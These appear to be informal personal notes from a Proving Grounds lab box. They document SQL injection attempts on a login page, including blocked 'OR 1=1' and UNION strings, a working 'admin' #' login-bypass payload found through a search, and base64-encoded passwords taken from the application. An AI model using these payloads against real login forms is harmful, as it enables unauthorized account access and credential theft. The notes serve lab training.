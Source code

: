 
Oh my lord lol

![[PG/Linux/attachments/Pasted image 20250710145924.png]]
- that's fun

So maybe valid syntax but input is being validated 

```
admin' OR 1=1 
```
- also blocked

Okay so this is a diff response 

```
'''''''''''''UNION SELECT '2
```
![[PG/Linux/attachments/Pasted image 20250710150312.png]]

''''''''''''"SELECT '2

![[PG/Linux/attachments/Pasted image 20250710150758.png]]

# Successful Login

Payload 

```
admin' #
```
![[PG/Linux/attachments/Pasted image 20250710151236.png]]

I basically googled the error response from the application and asked google ai how an attacker might successfully login

This was my google search 

```
logical sql injection iof this is the error Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'='%' AND password like '%1=1 AND '%'='%'' at line 1 okay so what payload might actually work
```

![[PG/Linux/attachments/Pasted image 20250710151453.png]]
- literally second suggestion worked. thank you googs. 

Alright NOW. 

We have some usernames and passwords 

![[PG/Linux/attachments/Pasted image 20250710151549.png]]
- Passwords look base64 encoded 

Just throw them into cyberchef with from base64 option
